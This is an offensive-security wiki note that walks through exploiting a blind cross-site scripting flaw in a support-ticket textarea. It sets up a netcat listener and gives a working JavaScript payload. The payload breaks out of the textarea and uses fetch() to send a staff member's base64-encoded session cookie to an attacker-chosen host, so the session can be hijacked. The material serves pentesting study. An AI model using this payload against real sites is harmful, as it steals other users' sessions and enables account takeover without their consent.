 ```yaml
---
title: Practical XSS example
---
```


Let's say we want to exploit a [blind-xss](knowledge/off-sec/pentesting/blind-xss.md) vulnerability we've found.

We have a Support Ticket system in which we may create tickets, which content `textarea` field is vulnerable to [xss](knowledge/off-sec/pentesting/xss.md).

We know we're able to run JavaScript code, but we don't have access to the content on our own, so we can't list anything. But we can expand the [payload](knowledge/off-sec/glossary/payload.md) to send sensitive content to our own server using [netcat](knowledge/off-sec/tools/netcat.md).

Because we're dealing with Support Ticket system, it's reasonable to assume that a staff member will also view this ticket which we could get to execute JavaScript.

Some helpful information to extract from another user would be their cookies, which we could use to elevate our privileges by hijacking their login session.

To do this, our payload will need to extract the user's cookie and exfiltrate it to another webserver server of our choice. Firstly, we'll need to set up a listening server to receive the information:

```sh
$ nc -nlvp 9001
```

Now that we've set up the method of receiving the exfiltrated information, we build the payload:

`</textarea><script>fetch('http://{URL_OR_IP:PORT}?cookie=' + btoa(document.cookie) );</script>`

> [!tip] `btoa()` encodes the victim's cookies with base64.

Once the user opens a ticket, we can decode the cookies.
